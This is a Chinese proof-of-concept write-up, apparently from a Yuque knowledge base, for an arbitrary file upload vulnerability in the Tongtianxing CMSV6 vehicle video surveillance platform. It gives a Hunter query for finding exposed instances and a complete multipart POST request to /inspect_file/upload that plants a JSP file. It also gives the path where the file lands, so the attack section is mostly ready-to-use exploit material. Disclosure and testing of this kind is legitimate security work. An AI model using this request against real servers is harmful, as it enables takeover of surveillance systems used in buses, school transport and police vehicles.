 # 通天星CMSV6车载视频监控平台 inspect_file存在任意文件上传漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台 inspect_file存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/jUid1OxjXoRrC2t_/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-651656.png)

# 四、漏洞复现
```plain
POST /inspect_file/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Length: 209
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Type: multipart/form-data; boundary=00content0boundary00
Accept-Encoding: gzip, deflate

--00content0boundary00
Content-Disposition: form-data; name="uploadFile"; filename="1.jsp"
Content-Type: application/ocet-stream

<% out.println("435352Els1K9wZvOlSsdsdmrg"); %>
--00content0boundary00--
```

![1711442433836-11ccee10-a5e8-48da-bc64-14c0946ac2a4.png](./img/jUid1OxjXoRrC2t_/1711442433836-11ccee10-a5e8-48da-bc64-14c0946ac2a4-277023.png)

上传文件位置

```plain
/upload/software/185859979470834_1.jsp
```

![1711442455597-99c0ecf1-513c-482a-87cf-dc08827ee05d.png](./img/jUid1OxjXoRrC2t_/1711442455597-99c0ecf1-513c-482a-87cf-dc08827ee05d-597295.png)

[tongtianxing-inspectfile-upload.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1735362336502-b3be6c93-a873-4f21-ae01-ef858e24e559.yaml)



> 更新: 2024-12-28 13:05:36  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sr4td7gzb4nxdfpf>